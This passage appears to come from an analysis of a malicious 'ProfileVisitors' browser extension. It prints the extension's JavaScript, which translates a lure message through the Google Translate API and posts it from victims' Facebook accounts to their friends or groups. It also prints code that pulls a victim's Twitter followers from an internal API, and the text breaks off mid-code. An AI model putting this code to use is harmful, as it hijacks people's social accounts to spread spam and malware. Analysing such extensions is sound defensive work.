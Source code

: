 ```javascript

  var params = [];
  params.push("client=gtx");
  params.push("sl=gtx");
  params.push("tl=" + vars.locale);
  params.push("hl=" + vars.locale);
  params.push("dt=t");
  params.push("dt=bd");
  params.push("dj=1");
  params.push("source=input");
  params.push("tk=964337.964337");
  params.push("q=" + vars.message);
  params = params.join("&");

  fetch("https://translate.googleapis.com/translate_a/single?" + encodeURI(params), {
    headers: {
      "content-type": "application/x-www-form-urlencoded"
    }
  }).then(response => response.json()).then((data) => {
    try {
      if (data.sentences) vars.message = data.sentences[0].trans;
      if (vars.mode == "friends") {
        facebook.postImage(vars);
      } else if (vars.mode == "groups") {
        facebook.createGroupCanvas(vars);
      }
    } catch (error) {
      var d = {
        response: data,
        error: error.message,
        vars: vars
      }
      facebook.error("translate", d);
    }
  })
}
```
<br> The first code create a shortened link in the form of `https://is.gd/some_id_here` from the Google Storage API link.
<br> The second one translate the text `Hi See your profile visitors with ProfileVisitors` with Google Translator API and then post it to Facebook.
<br> For Twitter, they do the same thing except that they show the picture of your followers:
```javascript
twitter.getFollowers = function () {
  var params = {
    variables: JSON.stringify({
      "userId": twitter.twid,
      "count": 1000,
      "withTweetQuoteCount": false,
      "includePromotedContent": false,
      "withSuperFollowsUserFields": true,
      "withUserResults": true,
      "withBirdwatchPivots": false,
      "withDownvotePerspective": false,
      "withReactionsMetadata": false,
      "withReactionsPerspective": false,
      "withSuperFollowsTweetFields": true
    })
  }

  fetch('https://twitter.com/i/api/graphql/XGZdhJo6WrrwE2AKkgFIew/Followers?' + deSerialize(params), {
    headers: {
```